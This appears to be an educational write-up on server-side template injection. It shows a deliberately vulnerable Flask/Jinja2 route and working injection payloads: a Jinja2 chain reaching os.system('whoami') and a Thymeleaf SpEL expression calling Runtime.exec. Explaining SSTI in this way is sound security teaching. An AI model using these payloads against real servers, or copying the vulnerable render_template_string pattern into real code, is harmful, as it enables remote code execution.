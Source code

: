 SSTI is a vulnerability that occurs when user input is unsafely embedded within a server-side template engine. This can lead to the execution of arbitrary code on the server, potentially compromising the application and its underlying system.

#### Why Does SSTI Occur?

Template engines are used to generate dynamic content in web applications. If user input is not properly validated or escaped before being processed by the template engine, an attacker may inject malicious payloads that get executed on the server.

#### Commonly Affected Template Engines

SSTI can affect various template engines across different programming languages, including:

- **Python** → Jinja2, Mako, Tornado
- **PHP** → Smarty, Twig
- **Java** → Freemarker, Velocity
- **Node.js** → Pug (formerly Jade), Handlebars
- **Ruby** → ERB

## Example of SSTI exploitation

**Vulnerable Code (Jinja2 - Python)**

```java
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/greet', methods=['GET'])
def greet():
    user_input = request.args.get('name', 'Guest')
    template = f"Hello {user_input}!"
    return render_template_string(template)
```

**Exploitation**
An attacker can send a payload like:
```bash
http://example.com/greet?name={{7*7}}
```

If vulnerable, the server will process the template and return:
```bash
Hello 49!
```

This confirms that the server is evaluating user input as code. An attacker could then escalate the attack to execute arbitrary code, such as:
```bash
http://example.com/greet?name={{config.__class__.__init__.__globals__['os'].system('whoami')}}
```

## SSTI in Java Template Engines (e.g., Thymeleaf with Spring Boot)

Java template engines like Thymeleaf allow expressions using Spring Expression Language (SpEL):

- Expressions look like: `*{...}` or `${...}`
- Improperly sanitized user input inside these expressions can allow attackers to:
    - Access Spring beans
    - Call arbitrary Java methods
    - Execute system commands via `Runtime.getRuntime().exec()`

**Example payload:**
```scss
*{T(java.lang.Runtime).getRuntime().exec('whoami')}
```
